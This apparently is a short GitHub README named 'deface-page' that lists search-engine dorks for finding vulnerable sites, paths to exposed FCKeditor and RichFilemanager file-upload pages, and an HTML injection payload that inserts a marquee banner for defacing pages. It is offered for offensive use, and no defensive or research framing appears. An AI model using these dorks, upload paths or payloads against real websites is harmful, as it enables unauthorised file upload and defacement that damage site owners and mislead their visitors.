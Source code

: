 # deface-page
some deface page 

Dork : 

inurl:"frame=product_detail"

exploit site :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html

################################################################################################

inurl:"/showcatrows.php?CategoryID="

"><marquee><h1>Your text</h1></mmarque>

intext:dokumenary.net

Exploit : /assets/comp/RichFilemanager/scripts/jQuery-File-Upload/


